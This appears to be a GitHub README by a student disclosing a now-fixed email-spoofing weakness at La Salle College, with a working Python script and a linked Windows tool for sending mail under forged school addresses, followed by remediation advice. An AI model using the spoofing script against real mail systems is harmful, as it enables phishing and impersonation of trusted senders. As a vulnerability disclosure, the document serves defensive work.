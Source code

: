> [!WARNING]
> This is outdated and the bug has been fixed.

> [!CAUTION]
> If anyone uses the following materials to do things that are either illegal or violating school rules (e.g. Breaching School Security), Lee Perseus Robin will not pay ANY responsibility to that.
## What is the Vulnerability?
La Salle College's email system is currently at risk due to the use of a "No Authorization" SMTP server (aspmx.l.google.com).
With the school WiFi, anyone can easily write an email from any valid email address under [lsc.hk](http://lsc.hk/) or [lasalle.edu.hk](http://lasalle.edu.hk/) and send it to anyone with an email address.

## What can the Vulnerability acheive?
The primary risk associated with this vulnerability is email spoofing. 
Attackers can impersonate legitimate users by sending emails that seem to come from trusted addresses, such as [test@lsc.hk](mailto:test@lsc.hk). 
This could lead to various malicious activities, including phishing attacks or dissemination of false information.

## How to execute the Vulnerability?
Windows Version: [Sendemail (Only in LSC, beta).zip](https://github.com/user-attachments/files/17656203/Sendemail.Only.in.LSC.beta.zip)

Python Version (Demonstration only):
```python
import smtplib
from email.mime.text import MIMEText

username = "test@lasalle.edu.hk"

fake_from = input("Enter the email address which you would like to pretent: ")

fake_name = input("Enter the name which you would like to pretent: ")

to_email = input("Enter the email address of the recipient: ")

to_name = input("Enter the name of the recipient: ")

subject = input("Subject of email: ")

# Replace '\n' with actual line breaks in HTML
content = input("Content of email (use '\\n' for line breaks): ").replace('\\n', '<br>')

# Create the HTML message
message = MIMEText(content, 'html')
message['From'] = f"{fake_name} <{fake_from}>"
message['To'] = f"{to_name} <{to_email}>"
message['Subject'] = subject

# Connect to the server and send the email
server = smtplib.SMTP("aspmx.l.google.com", 25)
server.starttls()
server.sendmail(username, to_email, message.as_string())
server.close()
```
## Who discovered the Vulnerability?
The flaw is found by Lee Perseus Robin (2G - 16). Following his initial findings, others contributed to refining the Python script to support line break.

## How to fix the Vulnerability?
To address and mitigate this vulnerability effectively, the following steps are recommended:

- Block Port 25
    - Implement restrictions to block access to Port 25 on all networks, preventing unauthorized email transmission.
- Fix SPF, DKIM, and DMARC Issues
    - Review and correct the DNS settings for the school's domains to ensure proper authentication of legitimate emails.
- Consult a Penetration Tester
    - For a comprehensive and long-term solution, engage a professional penetration tester to conduct a thorough security assessment of the college's systems.

## How to contact us to get more information about the Vulnerability?
For further inquiries or additional information regarding this vulnerability, please feel free to reach out to me at [perseus@lscstudy.us.kg](mailto:perseus@lscstudy.us.kg), [s23218@lsc.hk](mailto:s23218@lsc.hk) or perseusrobin@gmail.com.

### Examples:
![image](https://github.com/user-attachments/assets/228cc297-306e-48c1-a93f-76f8e8ba4c56)
